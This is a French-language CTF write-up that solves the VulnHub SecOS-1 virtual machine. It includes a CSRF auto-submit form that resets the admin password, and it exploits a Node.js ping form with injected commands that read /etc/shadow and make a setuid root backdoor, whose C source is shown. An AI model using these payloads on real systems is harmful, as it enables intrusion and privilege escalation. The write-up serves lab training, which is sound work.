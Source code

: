 ```yaml
---
title: "Solution du CTF SecOS 1 de VulnHub"
tags: [CTF,VulnHub]
---
```


Nitro
-----

Le challenge [SecOS premier du nom](http://vulnhub.com/entry/secos-1,88/) se présente comme un boot2root (c'est à dire qu'il faut récupérer l'accès root) web-based.  

La VM peut se monter depuis *VirtualBox*, c'est une *Ubuntu* 32 bits. Il faut créer une nouvelle VM et sélectionner le fichier existant comme disque virtuel.  

One time
--------

Deux ports sont ouverts : un SSH ainsi qu'un serveur web servi par Node.js.  

```
Starting Nmap 6.46 ( http://nmap.org ) at 2014-05-24 12:08 CEST
Nmap scan report for 192.168.1.20
Host is up (0.00023s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:d9:32:f5:1d:19:88:d3:e7:af:f0:4e:21:76:7a:c8 (DSA)
|   2048 90:b0:3d:99:ed:5b:1b:e1:d4:e6:b5:dd:e9:70:89:f5 (RSA)
|_  256 78:2a:d9:e3:63:83:24:dc:2a:d4:f6:4a:ac:2c:70:5a (ECDSA)
8081/tcp open  http    Node.js (Express middleware)
|_http-title: Secure Web App
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at http://www.insecure.org/cgi-bin/servicefp-submit.cgi :
SF-Port22-TCP:V=6.46%I=7%D=5/24%Time=53806FA6%P=x86_64-suse-linux-gnu%r(NU
SF:LL,27,"SSH-2\.0-OpenSSH_6\.6p1\x20Ubuntu-2ubuntu1\r\n");
MAC Address: 08:00:27:2E:F6:F7 (Cadmus Computer Systems)
No exact OS matches for host (If you know what OS is running on it, see http://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=6.46%E=4%D=5/24%OT=22%CT=1%CU=43345%PV=Y%DS=1%DC=D%G=Y%M=080027%T
OS:M=53806FB2%P=x86_64-suse-linux-gnu)SEQ(SP=FF%GCD=3%ISR=105%TI=Z%CI=I%II=
OS:I%TS=8)OPS(O1=M5B4ST11NW6%O2=M5B4ST11NW6%O3=M5B4NNT11NW6%O4=M5B4ST11NW6%
OS:O5=M5B4ST11NW6%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W
OS:6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=
OS:O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0
OS:%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=40%CD=S)
```

Le site web utilise *Bootstrap* pour le JS et CSS donc on a l'impression de déjà connaître le site avant l'avoir visité :p   

Je lance [Wapiti](http://wapiti.sourceforge.net/) qui ne trouve rien d'intéressant.  

Le site dispose d'une zone privée pour les utilisateurs connectés depuis laquelle ils peuvent s'échanger des messages. Malheureusement, après création d'un utilisateur *toto*, toujours pas de faille à l'horizon.  

Une page liste les utilisateurs enregistrés, voici un extrait :  

![Utilisateurs enregistrés](/assets/img/secos_users.png)

Je lance [dirb](http://dirb.sourceforge.net/) qui me trouve une page */hint* dans laquelle on trouve en code source :  

```html
      <div class="jumbotron">
        <p><i>Are you sure there's something to see here?</i></p>
        <!--
        First: the admin visits the website (really) frequently
        Second: He runs it locally, on 127.0.0.1. 
        Third: CSRF and /(http:\/\/[-\/\.\w:0-9\?&]+)/gi, I think that's enough
        !-->
      </div>
```

Effectivement il n'y a pas de token anti-CSRF. D'après l'expression régulière on devine que le simple fait de poster une URL provoquera une requête depuis le compte *spiderman* (l'administrateur).  

On créé la page index.html suivante avec formulaire auto-submit que l'on livre avec *SimpleHTTPServer* :  

```html
<html>
<body>
<form action="http://127.0.0.1:8081/change-password" method="POST" id="inject">
    <input type="hidden" name="username" value="spiderman" />
    <input type="hidden" name="password" value="hacked" />
</form>
<script language="Javascript">
    document.getElementById("inject").submit();
</script>
</body>
<html>
```

On envoie ensuite un message à *spiderman* avec l'URL de notre serveur. On voit rapidement apparaître une requête dans les logs, ça a fonctionné :)  

```
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.1.20 - - [24/May/2014 17:21:14] "GET / HTTP/1.1" 200 -
```

On se connecte alors avec l'utilisateur *spiderman* et le mot de passe *hacked* sur la webapp. Direction les messages privés...  

![spiderman private messages](/assets/img/secos_spiderman_msg.png)

Visiblement pirate a fait le travail pour nous :) Il ne reste qu'à se connecter en SSH sur la machine avec *spiderman* et *CrazyPassword!* :  

```
Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sat May 24 12:07:20 CEST 2014

  System load: 1.04              Memory usage: 8%   Processes:       78
  Usage of /:  23.3% of 6.50GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Wed May  7 18:19:57 2014 from 192.168.56.1
spiderman@SecOS-1:~$ 
```

Two time
--------

Avec un *pstree -a* on voit que deux Nodes.js tournent dont l'un en root :  

```
  ├─sudo -u spiderman sh -c /usr/local/bin/node /home/spiderman/vnwa/server.js
  │   └─sh -c /usr/local/bin/node /home/spiderman/vnwa/server.js
  │       └─node /home/spiderman/vnwa/server.js
  │           └─5*[{node}]
  ├─sudo -u root sh -c /usr/local/bin/node /home/spiderman/vnwa/internalServer.js
  │   └─sh -c /usr/local/bin/node /home/spiderman/vnwa/internalServer.js
  │       └─node /home/spiderman/vnwa/internalServer.js
  │           └─5*[{node}]
```

Il y a deux infos intéressantes dans *internalServer.js* : d'abord il écoute sur le port 9000 (mais sur le loopback) et ensuite il semble y avoir une faille d'injection de commande.  

```js
app.post('/', function (req, res) {
    ip = req.body.ip
    if (ip == "") {
        utils.redirect(req, res, '/ping-status');
    } else {
        // getting the command with req.params.command
        var child;
        // console.log(req.params.command);
        child = exec('ping ' + ip, function (error, stdout, stderr) {
            res.render('ping.ejs', {
                isConnected: req.session.isConnected,
                message: stdout,
                isAdmin: req.session.isAdmin
            });
        });
    }
});

server.listen(9000, '127.0.0.1', function() {
  console.log("Listening on port 9000");
});
```

On crée un tunnel SSH afin de rediriger notre port 8888 local vers le port interne 9000 de la VM :  

```bash
ssh -L 8888:127.0.0.1:9000 spiderman@192.168.1.20
```

La page contient un champ de formulaire qui est en effet vulnérable : si on rentre *;cat /etc/shaddow* ont voit les hashs des utilisateurs (sha512, inutile de perdre du temps là dessus).  

On écrit une petite backdoor setuid que l'on compile :  

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

Il n'y a plus qu'à injecter *;chown root:root /tmp/gotroot;chmod 4755 /tmp/gotroot* comme adresse IP.  

![injection de commande dans le formulaire ping](/assets/img/secos_ping.png)

On lance la backdoor qui nous donne les bons droits...  

```
root@SecOS-1:/root# cat flag.txt 
Hey,

Congrats, you did it ! 

The flag for this first (VM) is: MickeyMustNotDie.
Keep this flag because it will be needed for the next VM.

If you liked the Web application, the code is available on Github. 
(https://github.com/PaulSec/VNWA)

There should be more VMs to come in the next few weeks/months.

Twitter: @PaulWebSec
GitHub : PaulSec
```

Done !

*Published May 24 2014 at 17:27*
